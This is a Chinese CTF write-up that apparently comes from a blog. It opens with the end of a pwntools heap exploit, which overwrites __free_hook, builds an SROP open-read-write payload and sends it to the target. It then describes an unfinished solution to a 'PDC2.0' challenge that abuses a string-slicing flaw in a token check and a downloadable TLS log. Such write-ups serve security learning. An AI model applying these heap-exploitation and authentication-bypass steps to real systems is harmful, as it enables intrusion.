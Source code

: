 ```python
pop_rdi_ret = libc_base + 0x26b72
pop_rsi_ret = libc_base + 0x27529
pop_rdx_ret = libc_base + 0x11c1e1
success(f'libc_base: {hex(libc_base)}')
success(f'heap_base: {hex(heap_base)}')
new(13, 0x80, b'')
delete(13)
delete(2)
edit(0, p64(0)*3+p64(0x51)+b'\x00'.ljust(0x48, b'\x00')+p64(0x71))
edit(0, p64(0)*3+p64(0x51)+b'\x00'.ljust(0x48, b'\x00')+p64(0x71)+p64(free_hook))
new(14, 0x80, b'')
new(15, 0x80, p64(magic_gadget))

payload = FAST_HEAP_SROP(heap_base + 0xcc0, set_context_61, read_)
new(16, 0xf0, bytes(payload)[:0xf0])
delete(16)
payload = orw_shellcode(rdi=pop_rdi_ret, rsi=pop_rsi_ret, rdx=pop_rdx_ret, mprotect_addr=mprotect, sig=payload, rdx_r12=True)
sh.send(payload)
sh.interactive()

```



## PDC2.0

真的属于 pwn 题么？ 1.0 见 [伽玛实验场 | PDC面壁计划管理系统-出题人视角 | CTF导航 (ctfiot.com)](https://www.ctfiot.com/100552.html)

拿到附件是一个 app.py，一个 cmdHistory 和一个 流量包，还有一个库 aiortc。

对于 aiortc，通过 diff 可以知道他把 ecc 改成了 rsa 的，具体原因可以参考上面的链接。

观察流量包搜索路由 `tell2me`，可以看到有一个 weisi 的 token，而他的 sk 是我们已知的，在 app.py 中

![image-20230528222953911](https://cdn.ova.moe/img/image-20230528222953911.png)

观察 `app.py` 可以知道我们可以访问 download 路由下载一些东西，其中有一个 editDatabase 的东西。

![image-20230528222602012](https://cdn.ova.moe/img/image-20230528222602012.png)

我们可以发现，想要下载它，就需要 luoji 的 sk，不过注意到这里，它并没有直接使用 pk2sk[pk]，而是做了循环判断

![image-20230528222702739](https://cdn.ova.moe/img/image-20230528222702739.png)

其中， pk 是我们传过去的 [45:]，而下面判断是不是 luoji 的时候又使用了 [45:50]，这其实给了我们一个利用：

假设我们传送的 submitToken[45:] 是 luojiweisi，那么 sk = pk2sk[weisi]，是我们已知的，但是判断的 `[45:50] == luoji`，就可以利用，利用过程不谈了，就是验签然后生成类似 HMAC 的东西，具体可以看上面的文章。



同时，通过观察 `cmdHistory`，我们还可以知道 `ssl.log` 的位置，也可以利用这个进行下载，这用于我们解密 DTLS 的流量，获取他们的密钥等等，但是由于我 wireshark 出问题了，没办法解密，暂且搁置不谈。

